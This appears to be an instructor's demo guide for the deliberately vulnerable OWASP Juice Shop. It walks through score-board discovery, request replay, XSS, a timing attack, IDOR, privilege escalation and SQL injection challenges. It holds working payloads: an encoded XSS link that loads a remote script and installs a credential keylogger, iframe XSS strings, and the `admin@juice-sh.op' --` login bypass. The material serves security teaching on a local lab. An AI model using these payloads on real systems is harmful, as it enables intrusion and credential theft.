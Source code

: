 ```yaml
---
layout: default
---
```


# Setup :cd:

Configure and run a custom docker-based instance of juice-shop:

```
sudo docker run -ti --init --rm  -p 3000:3000 -p 8080:80 hugopacheco/juice-shop-demo

# python only required for the Timing attack demo
sudo apt-get -y install python3-pip
pip3 install requests statistics argparse
```

Install [Google Chrome](https://www.google.com/chrome/) and its [WebSpy](https://chrome.google.com/webstore/detail/webspy-explore-and-test-w/aedipmheomnpcbgmanofhaccebgapije?hl=en) extension.

Open the locally-hosted Juice Shop website (http://localhost:3000) with Chrome.

## FAQ :scroll:

* For multiple demos, delete the browser cookies in the score-board, and relaunch the docker container to reset all progress.
* If the timing delays in the timing attack demo are not noticeable, you may increase the delay in milliseconds for each product search by setting the flag `SEARCH_DELAY` before launching the container, e.g. `export SEARCH_DELAY=100` sets the delay to 100ms. 

# Examples :rocket:

You can demonstrate these in order, or select a few at will.

## Score Board challenge :star:

<details>
<summary>More info</summary>

This challenge serves to explain the structure of web pages and to demonstrate how Juice Shop challenges work:

1. Explain how to use the browser's `Developer Tools`.
2. Then show how to find the score-board by inspecting the HTML and JavaScript code of the frontpage.
3. You will find the `score-board` as a `path` defined in file `main.js`. Go to the page `http://localhost:3000/#/score-board`.
4. When you solve a Juice Shop challenge, the site will greet you with a green notification.
5. Show the gamified challenges on the scoreboard. Reinforce that interested students can try to solve more challenges at home.
</details>
<p></p>

<details>
<summary>Questions</summary>

1. Which is the link to the scoreboard?
2. Is it secure to hide information in a web page? :eyes:
</details>
<p></p>

## Zero Stars challenge :star:

<details>
<summary>More info</summary>

Start by showing the unsolved challenge in the scoreboard and read the hints. 

Explain how to use WebSpy (under `Developer Tools > Spy`) to monitor the requests made by the browser to the Juice Shop website. Argue why this is the modus-operandi of many hackers.
Then show how to submit a zero-star review:

1. Do a regular action: posting a new comment in the *Customer Feedback* page.
2. You may check that your comment actually appears in the *About Us* page.
3. Replay a similar request with WebSpy to `/api/Feedbacks`, this time with `rating:0`.
4. Note that you will have to change increment the captcha id from the previous request. The new captcha will be shown in the response to the latest `/rest/captcha` request, and reloaded in the web interface.
</details>
<p></p>

<details>
<summary>Questions</summary>

1. How does a web browser communicate with a web server?
2. Is it secure for a web server to trust incoming requests? :man_technologist:
</details>
<p></p>

## XSS demo :link:

<details>
<summary>More info</summary>

Showcase the XSS demo (more detailed instructions [here](https://pwning.owasp-juice.shop/appendix/trainers.html)):

1. Open the keylogger at (http://localhost:8080/logger.php).
2. Open this [link](http://localhost:3000/#/search?q=%3Cimg%20src%3D%22bha%22%20onError%3D%27javascript%3Aeval%28%60var%20js%3Ddocument.createElement%28%22script%22%29%3Bjs.type%3D%22text%2Fjavascript%22%3Bjs.src%3D%22http%3A%2F%2Flocalhost%3A8080%2Fshake.js%22%3Bdocument.body.appendChild%28js%29%3Bvar%20hash%3Dwindow.location.hash%3Bwindow.location.hash%3D%22%23%2Fsearch%3Fq%3Dowasp%22%3BsearchQuery.value%20%3D%20%22owasp%22%3B%60%29%27%3C%2Fimg%3Eowasp) in a new tab to start the XSS attack. Explain why following malicious links is a very common scenario. Your page will run some malicious JS that plays music and shakes to its sound, while it installs a keylogger.
3. Login as an existing user and see that the credentials are being recorded to the keylogger.
4. Refresh the web page to unload the attack script.
</details>
<p></p>

## Timing attack demo :hourglass_flowing_sand:

<details>
<summary>More info</summary>

This is a demo on how subtle timing differences may allow us to recover hidden information. This is not an actual Juice Shop challenge, but is inspired by the Christmas Special challenge :star: :star:.

1. Open up WebSpy and find the backend search request. You may notice that, independently of the search query in the frontend, the backend request is always `/rest/products/search?q=` with an empty query. (Product filtering is happening by default in the JS side.)
2. You can nonetheless replay the request and fill in the `q` argument with your own search term.
3. This is particularly interesting for search terms for which there are **no apparent** products. For example, the Christmas Special challenge invites us to search for an hidden *Christmas special offer of 2014*. We can use WebSpy to search for two different terms such as `christmas` and `personal`; they both return an empty match, but is there a noticeable difference in the time of the request? It does seem so...
4. After all, the server may take an arbitrary time to respond. We can further support our suspicions by repeating the same requests multiple times and checking if there is still a significant difference in the average times. Download this Python [script](demo/xs-search.py) to automate the search. Then run the script for our two search terms; you shall get something like this:

```
% python3 xs-search.py christmas
Namespace(QUERY='christmas', n=10, t='runtime', nextchar=None, host=['localhost:3000'])
<Response [200]>
{"status":"success","data":[]}
christmas 0.03077825400000438
```

```
% python3 xs-search.py personal
Namespace(QUERY='personal', n=10, t='runtime', nextchar=None, host=['localhost:3000'])
<Response [200]>
{"status":"success","data":[]}
christmas 0.007031379100000438
```

Why does `christmas` take longer than `personal`? Probably because the server is taking more time to compare the search term and prepare the results for products that exist, than for products that do not exist.

5. There does seem to exist some product with the word `christmas` in its name. How can we find its full name? We need to find more characters before and/or after the word `christmas`. An idea is to attempt several characters, and check if there is a measurable time difference. In the script, we are trying characters from `a` to `z` and from `0` to `9`; other special characters are captured by the `_` wildcard. We can configure this to search for a character before or after:

```
% python3 xs-search.py christmas --nextchar before
Namespace(QUERY='christmas', n=10, t='runtime', nextchar='before', host='localhost:3000')
christmasa 0.006191999999980908
christmasb 0.005347312500001863
...
christmas_ 0.004923229000007268
```

All characters seem to take roughly the same amount of time. This suggests that there is no character appearing before `christmas` in our hidden product.

```
% python3 xs-search.py christmas -nextchar after
Namespace(QUERY='christmas', n=10, t='runtime', nextchar='after', host=['localhost:3000'])
christmasa 0.008081472499761731
christmasb 0.008309272999875248
...
christmas_ 0.029330530500039458
```

It seems that the `_` wildcard takes longer, hence the next character after `christmas` is neither a letter nor a number, but it does seem to exist.

We can repeat this process one character at a time:

```
% python3 xs-search.py christmas_ --nextchar after
Namespace(QUERY='christmas_', n=10, t='runtime', nextchar='after', host=['localhost:3000'])
christmas_a 0.006253162499982864
...
christmas_s 0.029131466499995443
...
christmas__ 0.028724410000257196
```

It seems that `s` takes longer (actually, the same as the `_` wildcard which always matches), hence the word `christmas_s` is in the name of our product.

You can repeat this process 35 times, until a new specific character cannot be singled out. The name of the actual hidden product is `Christmas Super-Surprise-Box (2014 Edition)`. We are not trying to find all the characters to avoid searching a larger character space and to avoid mentioning special HTML character encodings.

</details>
<p></p>

## Confidential Document challenge :star:

<details>
<summary>More info</summary>

1. Check the *About Us* page and follow the linked FTP file (`/ftp/legal.md`).
2. Replay the request with WebSpy to list the parent directory (`/ftp/`).
3. Find the `acquisitions.md` file in the response a get the confidential file (`/ftp/acquisitions.md`)..
</details>
<p></p>

## DOM XSS challenge :star:

<details>
<summary>More info</summary>

1. Paste the JS script from the challenge (`<iframe src="javascript:alert(`xss`)">`) in the search field.
2. You will immediately see a XSS popup.
</details>
<p></p>

## Reflected XSS challenge :star: :star:

<details>
<summary>More info</summary>

1. Create some user and login.
2. Order some product (add some product to the basket, checkout, fill out all the payment information and place order), visit the *Order History* page and click *Track Order* on your order.
3. The link of your product's order information will have the structure `/#/track-result/new?id=7cb0-dd30e23740d08c54`
3. Attack the orders search feature by replacing your order id with the JS script from the challenge (`<iframe src="javascript:alert(`xss`)">`). You may need to refresh the page for the script to be actually executed.
</details>
<p></p>

## Admin Registration challenge :star: :star: :star:

<details>
<summary>More info</summary>

1. Register a new user and inspect the request/response in WebSpy.
2. Inspect the fields of the response, you shall see a field `role: customer`
3. Replay the request with `role:admin` to register a new user with admin privileges. Make sure to register a new user; registering a repeated user issues an error.
</details>
<p></p>

## Admin Section challenge :star: :star:

<details>
<summary>More info</summary>

1. You need to be logged in as a user with admin privileges (from previous challenge)
2. Find the admin page by inspecting the HTML and JavaScript using the Developer Tools.
3. You will find the `administration` page as a `path` defined in file `main.js`.
</details>
<p></p>

## Forged Review challenge :star: :star: :star:

<details>
<summary>More info</summary>

1. Submit a new review for some product, while logged in, and replay it with WebSpy.
2. Try changing the author information (the `author` field in the request is just a string, the user doesn't even need to be valid).
</details>
<p></p>

## Forged Feedback challenge :star: :star: :star:

<details>
<summary>More info</summary>

1. Submit a new comment in the *Customer Feedback* page, while logged in, and replay it with WebSpy.
2. Try changing the user information (changing the `UserId` field to some other random user id, e.g. `1`; the user's name in the comment is just a string unrelated to the actual user id).
</details>
<p></p>

##  View Basket challenge :star: :star:

<details>
<summary>More info</summary>

1. View your basket and replay the request with WebSpy for a different user. You may notice that the user id appears in the request link (`/rest/basket/<id>`).
2. Replay the request with WebSpy for some other user id (e.g., `1`).
</details>
<p></p>

## Login Admin challenge :star: :star:

<details>
<summary>More info</summary>

You can also try to break authentication by demonstrating how SQL injection works:

1. Search for user account name in the *About Us* page. You may notice that there are a few `****@juice-sh.op` accounts.
2. Since we trying to login as special user named admin, a good guess is to assume that his account name will be `admin@juice-sh.op`.
3. Go to the login page and demonstrate the SQL injection by typing `admin@juice-sh.op' --` in the `username` field and anything in the `password` field.
4. You may confirm that this user actually has administrator privileges by going to the `/#/administration` page.
</details>
<p></p>



